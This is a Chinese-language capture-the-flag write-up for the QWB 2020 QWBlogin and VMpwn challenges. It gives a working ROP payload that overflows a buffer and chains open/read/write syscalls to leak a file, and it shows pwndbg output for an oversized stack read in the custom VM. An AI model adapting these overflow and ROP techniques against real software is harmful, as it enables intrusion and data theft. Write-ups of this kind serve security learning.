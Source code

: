 

#### exp

由于`syscall`中只有`open | read | write | close`可用，很自然想到`orw`，然后构造`rop`链就行了，其中由于最开始打开了`test.bin`文件，所以`fd=4`，最初写`exp`的时候被坑了一下，以及调试的时候希望能有结构体的符号，我编译了`struct.c => struct.o`再在调试的时候`add-symbol-file struct.o 0`即可



```python
payload = b"A"*0x108
# read(0, data[0x100], 0x20)
# r00 = 1 r01 = 0 r02 = 0x100 r03 = 0x20
payload += p64(pop_r00_ret) + p64(1) + p64(pop_r01_ret) + p64(0) + p64(pop_r02_ret) + p64(0x100) + p64(pop_r03_ret) + p64(0x20)
payload += p64(sys_data_ret)

# open(data[0x100], 0)
# r00 = 0 r01 = 0x200 r02 = 0
payload += p64(pop_r00_ret) + p64(0) + p64(pop_r01_ret) + p64(0x100) + p64(pop_r02_ret) + p64(0)
payload += p64(sys_open_ret)

# read(4, data[0x100], 0x30)
# r00 = 1 r01 = 4 r02 = 0x100 r03 = 0x30
payload += p64(pop_r00_ret) + p64(1) + p64(pop_r01_ret) + p64(0x4) + p64(pop_r02_ret) + p64(0x100) + p64(pop_r03_ret) + p64(0x30)
payload += p64(sys_data_ret)

# write(1, data[0x100], 0x30)
# r00 = 2 r01 = 1 r02 = 0x100 r03 = 0x30
payload += p64(pop_r00_ret) + p64(2) + p64(pop_r01_ret) + p64(0x1) + p64(pop_r02_ret) + p64(0x100) + p64(pop_r03_ret) + p64(0x30)
payload += p64(sys_data_ret)
```



强的大佬，不需要`instruction.h`都能在5个小时内做出来，而我就是只菜鸡

[QWBlogin 题目](<https://github.com/Vang3lis/CTF_repo/tree/master/QWB_2020/QWBlogin>)



## VMpwn

这个题目跟上一个题目一样先逆向，但是这个题目跟`QWBlogin`相比实现`vm`的时候简单一些

其中有一个 `chunk 0x30`用来记录寄存器的值`vm[0] vm[1] vm[2]` 类似`rdi, rsi, rdx`在`syscall`时会用到，`vm[3]`为`sp`，`vm[5]`为 `pc`

在最后的关键操作为对于`read(0, stack, 0x1000)`（栈只有`0x100`个字节）

```assembly
pwndbg> distance 0x555555759050 0x55555575ad68
0x555555759050->0x55555575ad68 is 0x1d18 bytes (0x3a3 words)

 RAX  0x7ffff7b156c0 (read) ◂— cmp    dword ptr [rip + 0x2c3039], 0
 ► 0x5555555555db    call   rax <0x7ffff7b156c0>
        fd: 0x0
        buf: 0x55555575ad68 ◂— 0x0
        nbytes: 0x1000

pwndbg> telescope 0x555555758010
00:0000│   0x555555758010 ◂— 0x0
01:0008│   0x555555758018 —▸ 0x55555575ad68 ◂— 0x0
02:0010│   0x555555758020 ◂— 0x1000
03:0018│   0x555555758028 —▸ 0x55555575ad68 ◂— 0x0
04:0020│   0x555555758030 ◂— 0x0
05:0028│   0x555555758038 —▸ 0x5555557572d6 ◂— 0x772c6b6f11028f10
```